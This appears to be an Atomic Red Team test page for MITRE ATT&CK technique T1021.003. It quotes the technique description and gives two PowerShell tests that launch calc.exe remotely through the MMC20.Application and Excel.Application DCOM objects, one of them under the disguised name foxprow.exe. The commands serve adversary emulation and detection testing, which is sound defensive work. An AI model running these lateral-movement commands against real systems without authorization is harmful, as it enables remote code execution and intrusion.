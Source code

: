 # T1021.003 - Remote Services: Distributed Component Object Model
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021/003)
<blockquote>

Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to interact with remote machines by taking advantage of Distributed Component Object Model (DCOM). The adversary may then perform actions as the logged-on user.

The Windows Component Object Model (COM) is a component of the native Windows application programming interface (API) that enables interaction between software objects, or executable code that implements one or more interfaces. Through COM, a client object can call methods of server objects, which are typically Dynamic Link Libraries (DLL) or executables (EXE). Distributed COM (DCOM) is transparent middleware that extends the functionality of COM beyond a local computer using remote procedure call (RPC) technology.(Citation: Fireeye Hunting COM June 2019)(Citation: Microsoft COM)

Permissions to interact with local and remote server COM objects are specified by access control lists (ACL) in the Registry.(Citation: Microsoft Process Wide Com Keys) By default, only Administrators may remotely activate and launch COM objects through DCOM.(Citation: Microsoft COM ACL)

Through DCOM, adversaries operating in the context of an appropriately privileged user can remotely obtain arbitrary and even direct shellcode execution through Office applications(Citation: Enigma Outlook DCOM Lateral Movement Nov 2017) as well as other Windows objects that contain insecure methods.(Citation: Enigma MMC20 COM Jan 2017)(Citation: Enigma DCOM Lateral Movement Jan 2017) DCOM can also execute macros in existing documents(Citation: Enigma Excel DCOM Sept 2017) and may also invoke [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002) (DDE) execution directly through a COM created instance of a Microsoft Office application(Citation: Cyberreason DCOM DDE Lateral Movement Nov 2017), bypassing the need for a malicious document. DCOM can be used as a method of remotely interacting with [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047). (Citation: MSDN WMI)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - PowerShell Lateral Movement using MMC20](#atomic-test-1---powershell-lateral-movement-using-mmc20)

- [Atomic Test #2 - PowerShell Lateral Movement Using Excel Application Object](#atomic-test-2---powershell-lateral-movement-using-excel-application-object)


<br/>

## Atomic Test #1 - PowerShell Lateral Movement using MMC20
Powershell lateral movement using the mmc20 application com object.

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 6dc74eb1-c9d6-4c53-b3b5-6f50ae339673





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | localhost|


#### Attack Commands: Run with `powershell`! 


```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```






<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement Using Excel Application Object
Powershell lateral movement using the Excel COM objects.

Reference:

https://posts.specterops.io/lateral-movement-abuse-the-power-of-dcom-excel-application-3c016d0d9922

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 505f24be-1c11-4694-b614-e01ae1cd2570





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Hostname or IP | string | localhost|
| user | Name of user | string | admin|


#### Attack Commands: Run with `powershell`! 


```powershell
copy c:\windows\system32\calc.exe 'C:\users\#{user}\AppData\local\Microsoft\WindowsApps\foxprow.exe'
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application","#{computer_name}"))
$com.ActivateMicrosoftApp("5")
```

#### Cleanup Commands:
```powershell
Remove-Item 'C:\users\#{user}\AppData\local\Microsoft\WindowsApps\foxprow.exe'
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```




<br/>
